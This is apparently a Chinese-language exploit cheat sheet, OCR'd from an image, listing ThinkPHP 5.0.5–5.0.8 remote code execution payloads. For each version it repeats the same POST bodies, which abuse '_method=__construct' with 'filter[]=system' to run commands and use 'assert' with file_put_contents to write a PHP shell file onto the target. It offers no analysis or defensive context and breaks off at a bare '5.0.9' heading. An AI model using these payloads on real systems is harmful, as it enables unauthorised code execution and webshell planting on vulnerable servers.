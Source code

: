 ```
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
```
写shell
```
POST
s=file_put_contents('test.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
5.0.5
debug 无关 命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
```
写shell
```
POST
s=file_put_contents('test.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```

5.0.6
debug 无关 命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
```
写shell
```
POST
s=file_put_contents('test.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
5.0.7
debug 无关 命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
```
写shell
```
POST
s=file_put_contents('test.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
5.0.8
debug 无关 命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system

aaaa=whoami&_method=__construct&method=GET&filter[]=system

_method=__construct&method=GET&filter[]=system&get[]=whoami

c=system&f=calc&_method=filter
```
写shell
```
POST
s=file_put_contents('test.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
5.0.9